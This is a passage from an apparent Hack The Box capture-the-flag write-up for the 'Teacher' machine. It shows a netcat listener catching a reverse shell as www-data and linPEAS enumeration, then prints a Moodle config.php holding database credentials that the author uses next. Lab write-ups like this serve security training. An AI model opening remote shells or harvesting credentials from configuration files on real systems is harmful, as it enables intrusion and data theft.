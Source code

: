 ```shell
[>] If connection was successful this program will wait here until you close the connection.
[>] You should be able to Ctrl+C and retain the connection through netcat.
^C
matt@kali:~/htb/teacher$
```

```shell
matt@kali:~$ sudo nc -nvlp 80
listening on [any] 80 ...
connect to [10.10.14.51] from (UNKNOWN) [10.10.10.153] 44972
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$
```

# Privilege Escalation

I began my internal enumeration by running linPEAS, which yielded two important pieces of information. The first was the existence of a script called `backup.sh`. This wasn't immediately useful, but it would eventually become important. The second, which was more immediately useful, was a `config.php` file that contained database credentials.

```php
<?php // Moodle configuration file
unset($CFG);
global $CFG;
$CFG = new stdClass();
$CFG->dbtype = 'mariadb';
$CFG->dblibrary = 'native';
$CFG->dbhost = 'localhost';
$CFG->dbname = 'moodle';
$CFG->dbuser = 'root';
$CFG->dbpass = 'Welkom1!';
$CFG->prefix = 'mdl_';
$CFG->dboptions = array (
'dbpersist' => 0,
'dbport' => 3306,
'dbsocket' => '',
'dbcollation' => 'utf8mb4_unicode_ci',
);
$CFG->wwwroot = 'http://10.10.10.153/moodle';
$CFG->dataroot = '/var/www/moodledata';
$CFG->admin = 'admin';
$CFG->directorypermissions = 0777;
require_once(__DIR__ . '/lib/setup.php');
// There is no php closing tag in this file,
// it is intentional because it prevents trailing whitespace problems!
www-data@teacher:/var/www/html/moodle$ 
```

Using these credentials, I was able to enumerate the MariaDB database.
